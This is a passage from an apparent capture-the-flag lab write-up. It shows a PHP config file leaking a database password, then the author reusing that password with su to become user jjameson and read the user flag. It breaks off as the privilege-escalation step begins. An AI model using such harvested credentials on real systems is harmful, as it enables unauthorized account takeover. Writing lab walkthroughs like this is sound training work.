 ```
    public $access = '1';
    public $debug = '0';
    public $debug_lang = '0';
    public $dbtype = 'mysqli';
    public $host = 'localhost';
    public $user = 'root';
    public $password = 'nv5uz9r3ZEDzVjNu';
[REDACTED]

```

- Using the above username root and password i tried to login to root but failed
- Then tried with jjameson and it worked and i logged in to jjameson 

```sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu
whoami
jjameson
ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cd home
cd jjameson
ls
user.txt
cat user.txt
27a260fe3cba712cfdedb1c86d80442e


>A) 27a260fe3cba712cfdedb1c86d80442e


### 4) What is the root flag?

```
- Now we need to get root 
- First i checked my privileges

